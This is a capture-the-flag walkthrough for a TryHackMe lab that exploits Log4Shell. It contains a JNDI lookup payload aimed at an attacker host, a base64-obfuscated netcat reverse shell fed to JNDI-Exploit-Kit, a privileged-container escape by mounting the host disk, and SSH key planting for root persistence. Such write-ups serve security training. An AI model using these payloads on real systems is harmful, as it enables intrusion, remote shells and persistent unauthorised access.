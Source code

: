 ##### Room Name: [Lumberjack Turtle](https://tryhackme.com/room/lumberjackturtle)
##### Difficulty: Medium
##### Room Description: No logs, no crime... so says the lumberjack.
---

## Enumeration

### Nmap
```js
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp    open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
22450/tcp filtered unknown
24740/tcp filtered unknown
25611/tcp filtered unknown
25974/tcp filtered unknown
30751/tcp filtered unknown
33989/tcp filtered unknown
36786/tcp filtered unknown
42724/tcp filtered unknown
50865/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website (Port 80)
Visiting any random non-existent page (`/test`) throws this error with 404 status code.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/error-msg.png)

Visiting `/error` gives the `status=999` in the error message with 500 status code.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/status-999.png)

Run recursive directory busting and we have `/~logs/log4j` directory.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/logs-log4j.png)

The response header `X-THM-HINT: CVE-2021-44228 against X-Api-Version` states that we have to use the `X-Api-Version` header.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/x-thm-hint.png)

### Exploitation
Try sending a request with `X-Api-Version: ${jndi:ldap://ATTACKER-IP:3333}` to the server. Also, keep a netcat listener running at port 3333. The netcat listener will listen a connection from the victim machine:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/vulnerable.png)

With this, we can confirm that the web application is indeed vulnerable.

Next, `git clone` the [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) from github. Follow the instructions on the README.md file in the github repo. Now, change directory to the JNDI-Exploit-Kit directory and run the exploit:
```bash
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "10.9.4.84:1389" -C "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC45LjQuODQgOTk5OSA+L3RtcC9m | base64 -d | bash"

```
The base64 payload is a simple reverse shell that connects to our attacker machine at port 9999. Grab the exploit URL from the output and send the request. Make sure to keep a listener running.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/exploit.png)

### Privilege escalation

We get a shell as root. But it is actually inside a docker container.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/got-shell.png)

The flag1 is located at `/opt/.flag1`
Running linpeas, we can see that privileged mode is enabled. It allows us to access the host filesystem from within the docker container. We simply have to mount the disk.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/linpeas.png)

Check for disks in the system with `fdisk -l`

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/fdisk.png)

The host uses the disk at `/dev/xvda1`. Create a folder at `/mnt/host` and mount the drive:
```bash
mount /dev/xvda1 /mnt/host
```

The host filesystem can be accessed from `/mnt/host`. Use `chroot /mnt/host` to change the root filesystem.
Create a SSH key pair and get a SSH session with the id_rsa file:
```bash
|07:52:33| root@81fbbf1def70:~/.ssh$ ls
total 16
drwx------ 2 root root 4096 Feb  1 07:52 .
drwx------ 4 root root 4096 Dec 13 01:25 ..
-rw------- 1 root root    0 Dec 13 01:23 authorized_keys
-rw------- 1 root root 1675 Feb  1 07:52 id_rsa
-rw-r--r-- 1 root root  399 Feb  1 07:52 id_rsa.pub
|07:52:47| root@81fbbf1def70:~/.ssh$ cat id_rsa.pub  >> authorized_keys 
```

Log in and you'll see a directory `/root/...`. The root flag is in this folder.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/TryHackMe/LumberjackTurtle/images/root-flag.png)

Happy hacking !